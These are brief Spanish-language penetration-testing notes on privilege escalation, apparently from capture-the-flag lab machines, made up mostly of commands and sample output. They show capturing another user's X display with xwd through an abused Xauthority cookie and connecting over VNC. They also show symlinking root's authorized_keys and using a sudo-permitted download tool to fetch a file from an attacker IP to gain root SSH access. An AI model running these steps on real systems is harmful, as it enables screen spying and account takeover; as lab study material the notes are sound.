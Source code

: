 # Escalada

## Abuso de Xauthority

### Listar sesiones activas
```null
alex@squashed:/home/alex$ w
 15:06:33 up  8:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               06:21    8:45m 46.16s  0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

### Verificar la conexión
```null
xdpyinfo -display <DISPLAY>
```

### Capturar pantalla
```null
xwd -root -screen -silent -display <DISPLAY> > screenshot.xwd
```

### Conexión con vncviewer

```null
proxychains vncviewer -passwd secret localhost:5901
```

## Abuso de binarios sudoers

## Netutils

Creación de enlace simbólico de mi clave pública a las authorized_keys de otro usuario

```null
ln -s -f /root/.ssh/authorized_keys id_rsa.pub
```

```null
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.16.2/cmd.jpg
Initializing download: http://10.10.16.2/cmd.jpg
File size: 33 bytes
Opening output file cmd.jpg.0
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 33 byte in 0 seconds. (0.04 KB/s)
```

